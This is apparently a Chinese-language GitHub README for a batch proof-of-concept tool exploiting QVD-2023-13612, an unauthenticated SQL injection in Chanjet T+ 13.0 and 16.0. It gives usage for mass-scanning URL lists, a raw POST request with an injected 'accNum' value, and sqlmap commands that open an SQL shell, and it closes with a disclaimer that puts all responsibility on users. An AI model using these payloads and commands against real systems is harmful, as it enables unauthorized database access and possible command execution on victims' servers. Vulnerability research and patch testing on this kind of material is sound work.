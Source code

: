 

## QVD-2023-13612 用友畅捷通T SQL注入 批量POC！

畅捷通T+SQL注入漏洞，未经身份认证的远程攻击者可在易受攻击系统上执行任意SQL语句，某些情况下攻击者利用该漏洞可在底层操作系统上执行shell命令。

### 影响范围

  畅捷通T+ 13.0

  畅捷通T+ 16.0

### Usage

```
usage: QVD-2023-13612_TPlus-SQLvuln.py [-h] [-u URL] [-f FILE] [-t THREAD] [-T TIMEOUT] [-o OUTPUT] [-p PROXY]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target url(e.g. http://127.0.0.1)
  -f FILE, --file FILE  Target file(e.g. url.txt)
  -t THREAD, --thread THREAD
                        Number of thread (default 5)
  -T TIMEOUT, --timeout TIMEOUT
                        Request timeout (default 3)
  -o OUTPUT, --output OUTPUT
                        Vuln url output file (e.g. result.txt)
  -p PROXY, --proxy PROXY
                        Request Proxy (e.g http://127.0.0.1:8080)
```

POC

```
 python '.\QVD-2023-13612_SQL Injection Vulnerability.py' -u http://host
```

![image-20230628001513660](https://github.com/Sweelg/QVD-2023-13612_TPlus-SQLvuln/raw/main/img/4.png)

```
 python '.\QVD-2023-13612_SQL Injection Vulnerability.py' -f .\url.txt -t 5 -o 1.txt
```

![image-20230628003352114](D:\tools\GitHub-exp\QVD-2023-13612 用友畅捷通T SQL注入\img\5.png)

### 数据包

```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/css,*/*;q=0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 79

{"accNum": "3'and (select @@version)>0--", "functionTag": "SYS0104", "url": ""}
```

![](D:\tools\GitHub-exp\QVD-2023-13612 用友畅捷通T SQL注入\img\1.png)

### EXP

```
python sqlmap.py -r sql.txt --random-agent -v 3 --dbms mssql --hex -p "accNum" --batch
python sqlmap.py -r sql.txt --random-agent -v 3 --dbms mssql --hex -p "accNum" --batch --sql-shell
```

sql.txt数据包

```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/css,*/*;q=0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 53

{"accNum": "3'", "functionTag": "SYS0104", "url": ""}
```

![image-20230627173340255](D:\tools\GitHub-exp\QVD-2023-13612 用友畅捷通T SQL注入\img\2.png)

![image-20230627225735364](D:\tools\GitHub-exp\QVD-2023-13612 用友畅捷通T SQL注入\img\3.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，**均由使用者本人负责，作者不为此承担任何责任**。

















